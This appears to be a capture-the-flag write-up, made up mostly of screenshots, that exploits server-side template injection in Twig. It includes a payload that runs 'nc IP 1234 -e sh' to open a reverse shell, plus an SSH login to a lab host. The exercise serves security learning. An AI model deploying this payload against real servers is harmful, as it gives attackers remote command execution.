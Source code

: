 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/969543bc-fc24-4ab6-bf46-153b72723e11)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48198394-d3ce-4641-93fc-6e3d77a4809c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2861d870-dd91-4a6c-b414-35fe4b6641c5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec85fdf6-c24f-494b-8a44-8bdd6eb9fabd)

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2ebf5ba5-a5bb-42c3-81c0-80396848a7df)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8f424bce-8053-4c8b-83a9-db6af40a8708)
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("nc IP 1234 -e sh")}}
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6dfbff28-1ee3-4ead-972b-5964eb44e926)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9626ee0a-6ff8-4230-8cb8-5a4c1df375a4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0008ab05-e8ac-4fbd-8fe7-5139bb66ccac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a3affac4-1ddf-4669-a342-622130059480)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8f923809-0e4c-44fb-b031-7bd0583126ae)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3f3cbfe-b034-420d-9fa7-8aae4a6ef436)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a0688355-fc77-4da7-a5f1-fd66433fa5b6)
```
ssh kevin@62.173.140.174 -p 18122
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ddada70-30b9-4639-8774-0c0f0c469ed1)
